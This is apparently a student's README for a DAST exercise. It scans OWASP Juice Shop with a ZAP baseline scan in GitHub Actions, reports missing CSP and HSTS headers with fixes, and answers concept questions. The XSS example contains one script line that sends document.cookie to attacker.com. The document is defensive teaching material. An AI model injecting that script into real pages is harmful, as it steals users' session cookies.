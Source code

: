# OWASP ZAP: Detecting Web Vulnerabilities with GitHub Actions

This repository contains the solution for the Day 2 exercise, "OWASP Top 10 – Overview & Use Cases". The goal of this exercise was to set up a Dynamic Application Security Testing (DAST) pipeline, scan a vulnerable web application, analyze the results, and document the findings.

This was accomplished by:
1.  Setting up and running **OWASP Juice Shop** using Docker.
2.  Creating a **GitHub Actions** CI/CD pipeline to automate the security scan.
3.  Integrating the **OWASP ZAP Baseline Scan** to run against the application.
4.  Generating a vulnerability report and analyzing two key findings from the OWASP Top 10.

---

## Setup: Running the Target Application (OWASP Juice Shop)

For this exercise, OWASP Juice Shop was used as the vulnerable target application. It was run locally as a Docker container, providing a consistent and isolated testing environment.

The following steps were used to set up the application:

1.  **Pull the Docker Image:** The latest official image was pulled from Docker Hub.
    ```bash
    docker pull bkimminich/juice-shop
    ```

2.  **Run the Docker Container:** The container was started, mapping port 3000 on the local machine to port 3000 inside the container.
    ```bash
    docker run --rm -p 3000:3000 bkimminich/juice-shop
    ```
3.  The application was then accessible for testing at `http://localhost:3000`.

---

## CI/CD Pipeline Integration

A GitHub Actions workflow was configured in `.github/workflows/zap-scan.yml`.

---

#### Vulnerability 1: Content Security Policy (CSP) Header Not Set

*   **Impact:** This is a **Medium** severity finding. Without a Content Security Policy, the application is significantly more vulnerable to Cross-Site Scripting (XSS) attacks. A CSP acts as a critical layer of defense by telling the browser which sources of content (like scripts and styles) are trusted. If an attacker injects a malicious script from an untrusted domain, a proper CSP would block it from executing, which helps protect the user's session and sensitive data from being stolen.

*   **Recommended Fix:** Implement a Content Security Policy by adding the `Content-Security-Policy` HTTP header to all responses from the server. A good starting policy is to only allow content from the application's own domain. For example: `Content-Security-Policy: default-src 'self';`.

#### Vulnerability 2: Strict-Transport-Security (HSTS) Header Not Set

*   **Impact:** This is a **Low** severity finding but has a high potential impact. The lack of an HSTS header exposes users to man-in-the-middle attacks. If a user connects to the site via an insecure link (HTTP), an attacker could intercept the connection before it is redirected to secure HTTPS. This could allow the attacker to steal sensitive information like session cookies or login credentials during that initial insecure request.

*   **Recommended Fix:** Add the `Strict-Transport-Security` header to all HTTPS responses. A recommended configuration is `Strict-Transport-Security: max-age=31536000; includeSubDomains`. This forces the browser to only communicate with the site over HTTPS for the next year, closing the window for downgrade attacks.

---

## Core Concept Questions

1. ### What is the purpose of DAST and how does it complement other security testing methods?

Dynamic Application Security Testing (DAST) is a "black-box" security testing method that finds vulnerabilities in a running application by simulating external attacks. It complements other methods like SAST (Static Application Security Testing) by finding runtime and environment-specific issues (e.g., server misconfigurations, authentication flaws, or vulnerabilities that only appear when different services interact) that cannot be found by analyzing source code alone.

**Use Case Example:** A developer writes perfectly secure code for handling file uploads, which passes all SAST scans. However, the operations team deploys the application to a cloud server where the storage bucket is accidentally configured to be publicly readable. A DAST scan, which actively probes the live application, would discover this misconfiguration by successfully accessing an uploaded file without authentication—a critical vulnerability that SAST was completely blind to.

2. ### Explain how XSS or SQL injection vulnerabilities can affect an application and its users.

*   **XSS (Cross-Site Scripting):** Affects users by allowing attackers to execute malicious scripts in their browsers, which can lead to session hijacking, credential theft, and keylogging. It affects the application by damaging its reputation, defacing its content, and potentially leading to the compromise of administrator accounts, giving attackers control over the entire site.
*   **SQL Injection:** Affects the application by allowing attackers to bypass authentication, read, modify, or delete all data in the database. This can lead to a complete server compromise. It affects users by causing a massive data breach of their personal and financial information (passwords, credit cards, etc.), resulting in a total loss of trust.

**Use Case Example (XSS):** An attacker posts a comment on an e-commerce product review page. The comment contains a hidden script: `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. The website fails to sanitize this input and displays the comment. Now, every legitimate user who views that product page will have their browser execute the script, unknowingly sending their session cookie to the attacker's server. The attacker can then use this cookie to take over the user's shopping session, steal their personal information, and make purchases with their saved credit card.

3. ### Describe the steps you would take to fix the vulnerabilities detected in your ZAP scan.

1.  **Analyze and Prioritize:** Review the ZAP report to understand the vulnerabilities and prioritize them based on their risk level and potential impact. In this scan, the Medium-risk "Content Security Policy (CSP) Header Not Set" would be the top priority.
2.  **Remediate:** Implement code-level or configuration changes to fix the identified flaws. For the two vulnerabilities found, this involves adding the `Content-Security-Policy` and `Strict-Transport-Security` headers to the web server's or application's configuration.
3.  **Re-scan:** After deploying the fixes, run the ZAP scan again in the CI/CD pipeline. This is a critical step to verify that the fixes have successfully removed the vulnerabilities and have not introduced new ones.
4.  **Document:** Document the findings and the remediation steps taken for auditing, team knowledge sharing, and future reference.

**Use Case Example (Fixing HSTS):**
1.  **Analyze:** The ZAP report shows a "Strict-Transport-Security Header Not Set" warning.
2.  **Remediate:** A developer edits the web server's configuration (e.g., Nginx) and adds the line: `add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;`.
3.  **Re-scan:** The developer commits and pushes the configuration change. The GitHub Actions pipeline automatically runs the ZAP scan again. The new report shows that the HSTS warning is no longer present.
4.  **Document:** The developer closes the security ticket, linking to the successful pipeline run and the commit that fixed the issue.

4. ### How does integrating ZAP scans into CI/CD pipelines support shift-left security practices?

Integrating ZAP scans into a CI/CD pipeline is a core practice of "shifting left" on security. It automates security testing early and often in the development lifecycle, rather than waiting until the end. This provides developers with immediate feedback on the security impact of their code changes. By catching vulnerabilities with every commit, organizations can fix issues when they are fastest, cheapest, and easiest to resolve, which dramatically reduces risk, lowers development costs, and builds a stronger, more security-conscious engineering culture.

**Use Case Example:**
*   **Without Shift-Left:** A team spends three months building a new feature. Right before launch, a manual penetration test finds a critical vulnerability. The launch is delayed for two weeks while developers scramble to fix old code they are no longer familiar with, causing stress and blowing the project budget.
*   **With Shift-Left:** A developer makes a small change and pushes it. Ten minutes later, the automated ZAP scan in their CI/CD pipeline fails, alerting them that their change accidentally introduced a potential XSS vulnerability. They immediately fix the issue in five minutes while the code is still fresh in their mind, push again, and the pipeline passes. The vulnerability is eliminated instantly at almost no cost.